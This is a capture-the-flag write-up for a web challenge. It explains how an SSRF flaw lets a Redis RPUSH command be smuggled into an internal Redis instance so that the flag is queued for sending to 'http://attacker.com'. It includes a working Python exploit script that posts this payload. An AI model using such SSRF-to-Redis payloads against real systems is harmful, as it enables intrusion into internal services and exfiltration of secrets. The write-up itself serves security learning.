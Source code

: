 ## Objective

The point of the challenge is to trick the application into sending the flag to the attacker.
Looking at the code for the bot, we can see that it injects the flag into the message when the host belongs to a designated blacklist.

```javascript
if (blacklist.check(host)) {
    msg = msg.replace("$$FLAG$$", FLAG)
}
```

This blacklist is populated with the following addresses.

```javascript
const blacklist = new net.BlockList();
blacklist.addRange("172.16.0.0", "172.31.255.255")
blacklist.addRange("127.0.0.0", "127.255.255.255")
```

## Solution

Since the blacklist includes the IP range that Docker uses to assign addresses to containers, messages sent to the Redis instance will allow the injection of the flag.
The Redis protocol is also very simple and you can send commands to the service by writing directly in the socket that it exposes.
As a result, it is possible to send the flag to the attacker by first sending a message to the Redis server.
This message will be a Redis command that will push the attacker controlled URL and the `$$FLAG$$` placeholder.
The placeholder will be replaced by the flag when the command is sent to Redis, which will cause it to queue the flag to be sent to the attacker.
The following script can accomplish this.

```python
import requests
from bs4 import BeautifulSoup

URL = 'APPLICATION_URL'

form_data = {
        'url': 'http://surf_redis:6379',
        'text': "RPUSH query '{\"url\": \"http://attacker.com\", \"message\": \"$$FLAG$$\"}'\r\n",
        'submit': "Submit",
        }

s = requests.session()
r = s.get(URL).text
soup = BeautifulSoup(r)
form_data['csrf_token'] = soup.find("input", {'id': "csrf_token"})['value']
print(form_data)
r = s.post(URL, data=form_data)
print(r)
```

